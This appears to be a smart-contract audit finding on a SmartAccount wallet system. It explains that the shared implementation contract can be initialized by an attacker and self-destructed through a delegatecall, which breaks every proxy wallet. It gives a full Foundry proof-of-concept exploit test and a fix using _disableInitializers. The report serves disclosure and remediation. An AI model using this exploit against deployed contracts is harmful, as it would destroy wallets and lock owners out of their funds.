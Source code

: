 # SmartAccount implementation can be destroyed by a bad actor

The SmartAccount wallet architecture is mainly defined by a `Proxy` contract that delegates functionality to a common reusable `SmartAccount` implementation.

The `SmartAccountFactory` contract has the address of a base `SmartAccount` implementation (immutable variable `_defaultImpl`). When a new wallet is created, the factory deploys a new `Proxy` that points its implementation to this base `SmartAccount` implementation, and then calls the `init` function to initialize the wallet (sets owner, sets entrypoint, etc.).

![architecture](https://i.ibb.co/1qLGwNV/biconomy-architecture-drawio.png)

Each Proxy contract that represents a wallet holds its storage state and delegates functionality to a `SmartAccount` implementation. This implementation contract is shared by all wallets.

Since the `SmartAccount` implementation is a contract that can be interacted with, a bad actor can initialize it and destroy this common implementation by:

1. Call `init` on the implementation contract to become the owner of the contract.
2. Using `execTransaction`, execute a `delegatecall` to a contract that performs the `selfdestruct` opcode.

## Impact

This security issue affects the functionality of existing wallets, rendering them unusable. The issue is caused by the destruction of the implementation contract code and the inability of the proxy to delegate functionality to the implementation contract. 

As a result, owners will lose access to their wallets and any associated funds, as well as any third party integrations that depend on the wallet. 

Additionally, the issue will prevent any upgrade functionality, as the upgrade logic is implemented in the same 'SmartAccount' contract using the 'Singleton' mixin and accessed through the 'updateImplementation' function. This means that upgrades will also be unavailable once the implementation contract is destroyed.

## PoC

The following test reproduces the issue. An attacker calls `init` on the implementation contract and executes a `delegatecall` to a simple contract that does the `selfdestruct`.

Note that in foundry tests, `selfdestruct` doesn't take effect until the test finalizes (see [here](https://github.com/foundry-rs/foundry/issues/1543)).

```solidity
contract Destroyable {
    function destroy() external {
        selfdestruct(payable(msg.sender));
    }
}

contract AuditTest is Test {
    bytes32 internal constant ACCOUNT_TX_TYPEHASH = 0xc2595443c361a1f264c73470b9410fd67ac953ebd1a3ae63a2f514f3f014cf07;

    uint256 bobPrivateKey = 0x123;
    uint256 attackerPrivateKey = 0x456;

    address deployer;
    address bob;
    address attacker;
    address entrypoint;
    address handler;

    SmartAccount public implementation;
    SmartAccountFactory public factory;
    MockToken public token;

    function setUp() public {
        deployer = makeAddr("deployer");
        bob = vm.addr(bobPrivateKey);
        attacker = vm.addr(attackerPrivateKey);
        entrypoint = makeAddr("entrypoint");
        handler = makeAddr("handler");

        vm.label(deployer, "deployer");
        vm.label(bob, "bob");
        vm.label(attacker, "attacker");

        vm.startPrank(deployer);
        implementation = new SmartAccount();
        factory = new SmartAccountFactory(address(implementation));
        token = new MockToken();
        vm.stopPrank();
    }
    
    function buildSignature(SmartAccount wallet, Transaction memory _tx, FeeRefund memory refundInfo, uint256 _nonce, uint256 privateKey) internal returns (bytes memory) {
        bytes32 domainSeparator = wallet.domainSeparator();

        bytes32 safeTxHash =
            keccak256(
                abi.encode(
                    ACCOUNT_TX_TYPEHASH,
                    _tx.to,
                    _tx.value,
                    keccak256(_tx.data),
                    _tx.operation,
                    _tx.targetTxGas,
                    refundInfo.baseGas,
                    refundInfo.gasPrice,
                    refundInfo.gasToken,
                    refundInfo.refundReceiver,
                    _nonce
                )
            );

        bytes memory encoded = abi.encodePacked(bytes1(0x19), bytes1(0x01), domainSeparator, safeTxHash);
        bytes32 hash = keccak256(encoded);

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(privateKey, hash);

        return abi.encodePacked(r, s, v);
    }

    function test_SmartAccount_DestroyImplementation() public {
        vm.prank(bob);
        address proxy = factory.deployWallet(bob, entrypoint, handler);
        SmartAccount wallet = SmartAccount(payable(proxy));

        vm.startPrank(attacker);

        // Attacker initializes implementation to become owner
        implementation.init(attacker, entrypoint, handler);

        // Simple contract that implements selfdestruct
        Destroyable destroyable = new Destroyable();

        // Attacker now sends a transaction (delegatecall) to the destroyable contract
        Transaction memory tx = Transaction(
            address(destroyable), // to
            0, //value,
            abi.encodeWithSelector(Destroyable.destroy.selector), //data
            Enum.Operation.DelegateCall, // operation
            0 //targetTxGas
        );
        FeeRefund memory feeRefund = FeeRefund(
            0, // uint256 baseGas;
            0, // uint256 gasPrice; //gasPrice or tokenGasPrice
            0, // uint256 tokenGasPriceFactor;
            address(0), // address gasToken;
            payable(0) // address payable refundReceiver;
        );
        uint256 batchId = 0;

        bytes memory signature = buildSignature(implementation, tx, feeRefund, 0, attackerPrivateKey);

        // This desroys the implementation contract
        implementation.execTransaction(tx, batchId, feeRefund, signature);

        vm.stopPrank();
    }
}
```

## Recommendation

Add a constructor to the `SmartAccount` contract that calls OpenZeppelin `_disableInitializers()` helper. This will disable any initializer in the implementation contract and prevent the `init` function (or any other initializer) from being called.

```solidity
constructor() {
    _disableInitializers();
}
```